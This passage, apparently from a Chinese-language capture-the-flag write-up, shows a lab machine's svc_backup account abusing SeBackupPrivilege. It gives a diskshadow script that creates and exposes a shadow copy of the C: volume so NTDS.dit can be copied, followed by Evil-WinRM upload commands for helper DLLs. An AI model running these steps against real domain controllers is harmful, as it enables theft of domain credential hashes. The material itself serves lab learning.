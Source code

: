 然后我记得`svc_backup`用户是`Backup Operators`组的成员，该组很可能启用了`SEBackupPrivilege` 。我用 `whoami /priv`来验证它:

![](img/e3728726a8de6401fc0ca2dc04cd22da.png)

## 滥用特权

我以前在多主机机器上做过这种滥用，所以这对我来说不是什么新鲜事。这可以通过使用带签名的二进制文件`diskshadow`创建 NTDS.dit 的卷影副本来完成。首先，创建一个名为 script.txt 的文本文件，其中包含以下内容:

```
{
set context persistent nowriters  
set metadata c:\windows\system32\spool\drivers\color\example.cab  
set verbose on  
begin backup  
add volume c: alias mydrive  

create  

expose %mydrive% w:  
end backup  
}
```

然后执行`diskshadow` 并使用脚本文件作为它的输入。

```
diskshadow /s script.txt
```

然后，我使用这个 [repo](https://github.com/giuliano108/SeBackupPrivilege) 来复制创建的 NTDS.dit 的卷影副本，然后只需遵循 repo 中的步骤。由于我使用的是`Evil-WinRM`，我可以使用它的上传功能:

```
upload SeBackupPrivilegeCmdLets.dll c:\users\svc_backup\music\
upload SeBackupPrivilegeUtils.dll c:\users\svc_backup\music\
```
